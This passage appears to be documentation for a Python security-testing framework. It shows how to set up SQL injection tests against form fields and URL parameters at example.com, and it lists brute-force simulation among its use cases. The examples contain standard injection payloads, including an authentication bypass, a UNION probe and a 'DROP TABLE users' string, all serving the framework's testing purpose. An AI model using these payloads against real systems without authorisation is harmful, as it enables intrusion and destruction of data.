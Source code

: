 **Use Cases:**
- Testing weak authentication mechanisms
- Validating password policies
- Testing account lockout mechanisms
- Brute force attack simulation

### SQL Injection TTPs

#### InputFieldInjector

Tests SQL injection through form input fields.

```python
from scythe.ttps.web.sql_injection import InputFieldInjector
from scythe.payloads.generators import StaticPayloadGenerator

# Create SQL injection payloads
sql_payloads = StaticPayloadGenerator([
    "' OR '1'='1",
    "' OR '1'='1' --",
    "' UNION SELECT NULL,NULL,NULL--",
    "'; DROP TABLE users; --"
])

# Create TTP instance
sql_ttp = InputFieldInjector(
    target_url="http://example.com/search",
    field_selector="input[name='search']",
    submit_selector="button[type='submit']",
    payload_generator=sql_payloads
)
```

**Parameters:**
- `target_url`: Target URL for the test
- `field_selector`: CSS selector for input field
- `submit_selector`: CSS selector for submit button
- `payload_generator`: Generator for SQL injection payloads

#### URLManipulation

Tests SQL injection through URL parameter manipulation.

```python
from scythe.ttps.web.sql_injection import URLManipulation

# Create URL manipulation TTP
url_sql_ttp = URLManipulation(
    payload_generator=sql_payloads,
    target_url="http://example.com/page"
)
```

**Parameters:**
- `payload_generator`: Generator for SQL injection payloads
- `target_url`: Base URL to append payloads to
